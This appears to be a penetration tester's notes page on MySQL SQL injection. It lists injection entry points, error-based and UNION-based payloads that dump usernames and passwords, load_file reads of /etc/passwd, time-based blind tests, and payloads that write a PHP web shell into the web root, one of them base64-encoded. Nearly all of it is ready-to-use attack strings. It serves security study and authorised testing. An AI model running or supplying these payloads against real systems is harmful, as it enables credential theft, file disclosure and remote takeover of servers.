 # SQL Injection

**References:**

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
- [PortSwigger Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [invicti](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)

**Key Concept:** We start with a baseline of expected output, then attempt to error the database or extract information based on deviations from this expected output. These deviations can include anything from an on-screen error, to entirely different HTTP response codes.

**Note:** We can try adding semicolons before comments in case commands are not working

## Methodology

### Identification

Once we realize SQLi is possible by erroring the site, the **first thing** we need to do is figure out how to do is **inject data in the query without breaking it.**

**Example entrypoints:**

```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))

'"`)(
```

**Note:** For long pages, simply scroll to the bottom of burp and monitor when the number of lines changes in the page.

We can now confirm existence with numerical/string comparison:

```mysql
# Confirm with numerical comparison
' OR 1=1 -- //
'
# Confirm with string comparison
' OR '1'='1' -- //
```

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT @@version) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
' UNION SELECT CONCAT('Col', 1), CONCAT('Col', 2), CONCAT('Col', 3), CONCAT('Col', 4), CONCAT('Col', 5), CONCAT('Col', 6) -- //

# We can now rearange our statement to first query baseline information
' UNION SELECT null, database(), user(), @@version, null -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //
'
# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# LFI (also works in error payload)
' UNION SELECT null, load_file('/etc/passwd'), null, null, null -- //
' UNION SELECT null, load_file('../../../../../../etc/passwd'), null, null, null -- //

# RCE (doesn't matter if PHP code is in viewable column)
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Blind SQL Injections

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```

## Additional Concepts

UNION-based attacks can be successful against an individual product page when performed using primary keys/ID's that don't exist as querying an undefined row will simply union the provided columns and return the values provided in the request (as they were originally undefined).

In the following UNION-based example, the product of ID 999 does not exist, leading to the union attack exposing the vesion within the output (as the corresponding unioned row)

```mysql
999' UNION SELECT 1,@@version,3,4,5,6,7,8 -- //
```

### SQLI2RCE

Figure out what directory you have write permissions to (MySQL is /var/lib/mysql)

```mysql
'; select from_base64("PD9waHAKc3lzdGVtKCRfR0VUWydjbWQnXSk7Cj8+Cg==") into dumpfile '/var/lib/mysql/shell.php' -- //
```

Requires a method of executing the file (LFI, CSRF, etc.)
